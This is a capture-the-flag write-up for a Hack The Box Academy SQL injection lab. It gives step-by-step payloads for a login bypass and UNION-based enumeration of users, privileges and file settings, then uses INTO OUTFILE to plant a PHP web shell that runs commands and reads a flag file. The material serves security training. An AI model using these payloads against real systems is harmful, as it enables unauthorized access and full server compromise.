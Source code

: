 ```yaml
---
layout: post
title:  "Hack The Box - Academy - SQL Injection Fundamentals"
description: "Master the basics of SQL injection with the Hack The Box - Academy - SQL Injection Fundamentals. Learn how to detect and exploit SQL vulnerabilities, enhancing your penetration testing skills."
date:   2024-10-03 20:25
image:  /images/htb/sql-injection/logo.png
tags:   [sqli,cbbh]
categories: [htbacademy]
---
```


><b>Overview:</b>
 Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.
<br/>
<a href="https://academy.hackthebox.com/module/33/section/193">Introduction to SQL Injection</a>

<br/>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/33/section/177">SQL Injection Fundamentals</a><br/>
<a href="https://jacozwarts.github.io/images/htb/sql-injection/Sql_Injection_Fundamentals_Module_Cheat_Sheet.pdf">SQL Injection - Cheat Sheet</a>
<br/>


## Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

#### 1. Bypassing the Login Page with SQL Injection
Begin by visiting the web application's login page. To bypass authentication, input the following SQL injection payload in the username field:
```
' OR 1=1 -- -
```
![Login Page](/images/htb/sql-injection//login.png)
This payload effectively bypasses the login check, granting us access to the application without valid credentials.

#### 2. Testing for SQL Injection in the Search Bar
After logging in, navigate to the Payroll information section and locate the search bar. We can test for SQL injection vulnerabilities by submitting the following payload:
![Payroll Information page](/images/htb/sql-injection/payroll_info_table.png)
```
' ORDER BY 1 -- -
```
![Test for SQL Injection](/images/htb/sql-injection/orderby_test.png)
If the page loads successfully without errors, it suggests the search bar is vulnerable to SQL injection. Now, we’ll proceed to determine the number of columns in the underlying query.

#### 3. Determining the Column Count
To identify the column count for the SQL query, increment the ORDER BY number until an error is returned. When an error occurs, reduce the count by one—this gives you the number of columns in the query.
![Column Count](/images/htb/sql-injection/orderby6.png)
![Column Count](/images/htb/sql-injection/orderby6-result.png)
#### 4. Identifying the Current User
With knowledge of the column count, we can perform an In-Band Union-Based SQL injection to retrieve key information, such as the current user:
```
' UNION SELECT 1,2,user(),3,4 -- -
```
![Current User](/images/htb/sql-injection/currentuser.png)

#### 5. Checking User Privileges
To explore the privileges granted to the current user, use the following query:
```
' UNION SELECT 1, grantee, privilege_type,is_grantable,3 FROM information_schema.user_privileges
WHERE grantee="'root'@'localhost'"-- -
```
![User Privileges](/images/htb/sql-injection/user_privileges.png)
If the user has file permissions, we can proceed with attempting file operations.

#### 6. Accessing MySQL Directories
Next, check the directories accessible through MySQL by querying the secure_file_priv variable:
```
' UNION SELECT 1, variable_name, variable_value, 4,5
FROM information_schema.global_variables where
variable_name="secure_file_priv"-- -
```
![Secure File Priv](/images/htb/sql-injection/mysql_directory_access.png)

If the `SECURE_FILE_PRIV` value is empty, it indicates that file read/write operations can be performed anywhere on the system.

#### 7. Writing a Web Shell to the Server
We’ll now attempt to write a web shell to the server. Initially, try writing the shell to the default web directory:

![Webshell writing failed](/images/htb/sql-injection/write_permission_denied.png)
```
' UNION SELECT "",'<?php system($_REQUEST[0]); ?>',"", "","" into outfile '/var/www/html/shell.php'-- -
```
If permission is denied, update the file path to target a different directory, such as the dashboard directory (Payroll Information URL is /dashboard/dashboard.php):

```
' UNION SELECT "",'<?php system($_REQUEST[0]); ?>',"", "","" into outfile '/var/www/html/dashboard/shell.php'-- -
```
#### 8. Testing the Web Shell
Once the web shell is successfully written, test it by navigating to the URL:
![Testing web shell](/images/htb/sql-injection/webshell-executed.png)
```
{TARGET_IP}:{TARGET_PORT}/dashboard/shell.php?0=ls
```
This command list all files in the directory, confirming that the web shell is working.

#### 9. Retrieving the Flag
Enumerate the directories to locate the flag. Once found, use the cat command to display its contents:
```
http://{TARGET_IP}:{TARGET_PORT}/dashboard/shell.php?0=cat%20../../../../flag_cae1dadcd174.txt
```
![Flag result](/images/htb/sql-injection/flag_result.png)
<br/>
Submit the contents of the flag as the answer to complete the challenge.
<hr/>